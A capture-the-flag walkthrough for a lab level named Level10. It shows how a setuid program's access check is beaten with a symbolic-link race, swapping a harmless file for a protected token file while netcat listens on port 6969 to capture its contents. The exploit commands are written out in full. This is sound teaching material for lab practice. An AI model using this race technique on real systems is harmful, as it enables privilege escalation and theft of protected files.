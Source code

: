 # Level10
## Step by step
### 1. Access the `level10` Home Directory
  ```bash
  > ls -la
  -rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
  -rw-------  1 flag10  flag10     26 Mar  5  2016 token
  ```
---
### 2. Understanding the `level10` Program

The `level10` program accepts a file path as an argument and prints the contents of that file to a port listening on `6969`.

  ```bash
  > echo coucou >/tmp/test
  > nc -l localhost 6969

  
  > ./level /tmp/test 127.0.0.1
  coucou # from the nc command
  ```
---
### 3. Handling the `token` File

When you try to pass the `token` file as an argument to `level10`, you will encounter an access restriction:
  ```bash
  > ./level10 ~/token 127.0.0.1
  You don't have access to token
  ```
---
### 4. Exploiting the Access Control

To bypass the access restriction, you need to create a symbolic link and manipulate access:

  ```bash
  > cat <<hey >/tmp/script.sh
  > touch /tmp/tmp;
  > ln -sf /tmp/tmp /tmp/exploit
  > ./level10 /tmp/exploit 127.0.0.1 &
  > ln -sf ~/token /tmp/exploit
  > hey

  > nc -l localhost 6969
  > /tmp/script.sh
  .*( )*.
  XXX
  ```
